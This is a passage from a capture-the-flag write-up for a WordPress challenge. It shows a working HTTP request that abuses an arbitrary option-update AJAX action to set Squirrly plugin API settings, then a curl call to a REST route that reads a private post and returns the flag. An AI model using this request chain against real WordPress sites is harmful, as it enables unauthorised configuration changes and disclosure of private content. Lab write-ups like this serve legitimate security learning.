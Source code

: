 ## Exploitation

Armed with above information, we can get the flag via the following requests:

First, update option `sq_options`'s JSON attribute `sq_api` and `sq_cloud_connect` to be an non-fasly value, and update `sq_cloud_token` to any string via arbitrary option update in `test-plugin`'s AJAX action `uptoyou`:

```http
POST / HTTP/1.1
Host: 52.77.81.199:9177
Content-Type: application/x-www-form-urlencoded
Content-Length: 135

action=uptoyou&option_name=sq_options&option_value[sq_api]=anything&option_value[sq_cloud_connect]=1&option_value[sq_cloud_token]=token
```

Then, we can get the private flag post via REST route `/squirrly/get/`. Note that the `token` parameter's value must match to the updated one. In my case, the API token is string `token`:

```shell
┌[siunam♥Mercury]-(~/ctf/Patchstack-Alliance-CTF-S02E01/Up-To-You/server-given/docker/wordpress/toolbox/plugins)-[2025.02.26|20:52:14(HKT)]
└> curl -s --get http://52.77.81.199:9177/ --data 'rest_route=/squirrly/get/&token=token&select=post&id=5' | jq -r '.["post_content"]' | tr -d '"'
CTF{up_to_you_how_to_get_the_flag_7cdd34392012dd}
```

- **Flag: `CTF{up_to_you_how_to_get_the_flag_7cdd34392012dd}`**

## Conclusion

What we've learned:

1. Read arbitrary posts via chaining with arbitrary option update and IDOR